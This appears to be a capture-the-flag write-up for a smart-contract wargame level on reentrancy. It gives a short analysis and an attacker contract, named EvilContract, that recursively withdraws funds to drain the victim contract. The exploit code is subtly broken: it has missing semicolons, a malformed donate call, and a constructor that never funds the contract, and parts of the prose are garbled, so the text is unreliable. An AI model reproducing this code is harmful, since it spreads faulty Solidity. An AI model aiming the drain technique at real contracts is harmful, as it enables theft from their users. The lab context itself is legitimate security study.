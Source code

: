 Challenge solved ✅

## Re-entrancy

**Challenge description**

The goal of this level is for you to steal all the funds from the contract.

--------
**Analysis**

A quick read about Re-entrancy attack is all we need: [HackerNoon Article](https://hackernoon.com/hack-solidity-reentrancy-attack).

![Reentrancy method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138011/6b9b88336f13d99f52296f5874086643de346fe2aa6dbd66098162a244b11b6c_ztdmmm.png)  

So he is actually our balance after the call that's all we need !

-----
**Exploitation** 

```js
interface Reentrance {

    function donate(address _to) external payable;
    function withdraw(uint amount) public;
}

contract EvilContract {
    Reentrance victimContract;
    address victimAddress;
    uint donatedValue;

    constructor(address _victimAddress) public payable {
        // Set our victim contract, fund the contract.
        victimContract = Reentrance(_victimAddress);
        victimAddress= _victimAddress
    }

    function attack(uint _donatedValue) public {
        victimContract.donate.value(address(this),{value:_donatedValue});
        victimContract.withdraw(_donatedValue);
        donatedValue=_donatedValue
    }

    function() public payable {
        // Receiver for funds withdrawn by the attack
            if(victimAddress.balance>= donatedValue )
            victimContract.withdraw(msg.value);
        }
}
```

Now we should just do some arithmetic to clear all the funds and not having to donate again and withdraw. If we have 1 ether as initial balance keep it to multipliers of 10 and so on.
